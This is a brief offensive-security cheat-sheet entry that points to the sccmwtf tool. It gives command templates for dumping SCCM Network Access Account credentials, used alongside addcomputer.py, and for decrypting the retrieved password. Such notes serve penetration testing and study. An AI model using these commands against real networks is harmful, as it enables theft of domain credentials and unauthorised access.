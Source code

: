 ### Source
https://github.com/xpn/sccmwtf

### Dump credentials of the Network Access Account (SCCM) - use in combation with addcomputer.py
```
python3 sccmwtf.py <targetAccount> <targetFqdn> <networkAccessAccount> "<domain>\<computerAccount>" "<password>"
```

### Deobfuscate retrieved user and password (beginning after: [CDATA[...)
```
policysecretdecrypt.exe <string>
```


